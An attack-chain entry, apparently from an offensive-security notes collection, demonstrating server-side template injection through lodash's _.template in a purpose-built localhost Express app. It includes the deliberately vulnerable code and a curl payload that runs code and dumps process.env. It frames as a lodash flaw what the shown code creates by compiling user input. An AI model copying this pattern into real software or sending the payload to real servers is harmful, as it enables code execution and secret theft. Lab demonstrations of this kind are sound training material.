

---
tags:
  - ssti
  - rce
  - lodash
  - node-js
type: attack_chain
tools:
  - '[[tools/Node-js]]'
  - '[[tools/npm]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/npm-install-dependencies]]'
  - '[[commands/node-run-app]]'
platforms:
  - Node.js
  - Web
complexity: medium
procedures:
  - '[[procedures/Setup-Lodash-Test-Application]]'
  - '[[procedures/Verify-Template-Functionality]]'
  - '[[procedures/Exploit-Template-Injection-Payload]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Command-Line Interface]]'
description: >-
  Multi-stage attack exploiting Server-side Template Injection in lodash.js to
  achieve arbitrary code execution and leak sensitive data.
skill_level: intermediate
impact_level: high
id: c0f267e4-f085-4870-95bc-62afc87b94a3
created_at: '2025-12-13T09:01:16.951Z'
updated_at: '2025-12-13T09:01:16.951Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Command-Line Interface]]'
---
# Server-Side Template Injection in Lodash Leading to Remote Code Execution

Multi-stage attack chain demonstrating a complete attack workflow exploiting a Server-side Template Injection vulnerability in lodash.js version 4.17.15, allowing arbitrary code execution on the server, such as leaking environment variables.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Node-js]]
- [[tools/npm]]

### Target Environment

- Node.js runtime
- Required services/ports: 8000
- Network access requirements: Localhost access

### Initial Access Requirements

- Credential requirements: None
- Network position: Local access to the application
- Prior access needed: Ability to send HTTP requests

## Detailed Attack Procedures

### Step 1: Setup Test Application
procedure: [[procedures/Setup-Lodash-Test-Application]]

**Objective**: Create a vulnerable Express.js application using lodash's _.template function to process user input.

**Instructions**: Install dependencies using [[commands/npm-install-dependencies]]:

```bash
npm install express lodash escape-html
```

Then, create and run the app using [[commands/node-run-app]] with the following code in app.js:

```javascript
const express = require('express');
const _ = require('lodash');
const escapeHTML = require('escape-html');
const app = express();

app.get('/', (req, res) => {
  const name = req.query.name || 'World';
  const template = _.template(`Hello ${escapeHTML(name)}.`);
  res.send(template());
});

app.listen(8000, () => {
  console.log('App listening on port 8000');
});
```

```bash
node app.js
```

**Expected Output**: Server running on port 8000.

**Success Indicators**:
- Application starts without errors
- Port 8000 is listening

### Step 2: Verify Functionality
procedure: [[procedures/Verify-Template-Functionality]]

**Objective**: Access the application with normal input to confirm it works as expected.

**Instructions**: Send a GET request to the URL http://127.0.0.1:8000/?name=Test using a browser or curl:

```bash
curl "http://127.0.0.1:8000/?name=Test"
```

**Expected Output**: Response: 'Hello Test.'

**Success Indicators**:
- Template renders correctly
- No errors in response

### Step 3: Exploit Injection
procedure: [[procedures/Exploit-Template-Injection-Payload]]

**Objective**: Inject a malicious payload to execute arbitrary code and leak environment variables.

**Instructions**: Send a GET request with the payload http://127.0.0.1:8000/?name=Test${JSON.stringify(process.env)} using curl:

```bash
curl "http://127.0.0.1:8000/?name=Test\$\{JSON.stringify(process.env)\}"
```

**Expected Output**: Response containing leaked environment variables in JSON format.

**Success Indicators**:
- Environment variables are leaked
- Arbitrary code execution confirmed

## Attack Chain Summary

### Key Achievements

1. Setup of vulnerable application
2. Verification of template processing
3. Successful code execution and data exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Command-Line Interface]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

*Last updated: [TIMESTAMP]*
